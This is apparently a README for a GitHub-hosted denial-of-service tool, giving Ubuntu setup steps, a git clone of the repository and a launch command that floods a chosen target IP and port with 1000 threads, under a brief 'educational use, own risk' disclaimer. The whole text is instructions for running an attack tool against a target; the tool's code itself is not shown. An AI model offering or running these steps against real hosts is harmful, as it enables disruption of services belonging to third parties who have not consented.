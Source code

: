 # Denial of Service Attack tool 

<b>Note: Use this for only educational perpouse. And use this on your own risk.</b>

## Ubuntu Commands 

1. Update and upgrade your system.

```bash
$ sudo apt-get update && apt-get upgrade
```

2. Install python.

```bash
$ sudo apt-get install python3
```

3. Clone respo.

```bash
$ sudo git clone https://github.com/SathiraSathsara/ddos-tool.git
```

```bash
$ cd ddos-tool
```

4. Start Attack.

```bash
$ python3 ddos.py -h target_ip -p target_port -t 1000 
```



<br>

<b> Original respo by [cyweb](https://github.com/cyweb/)
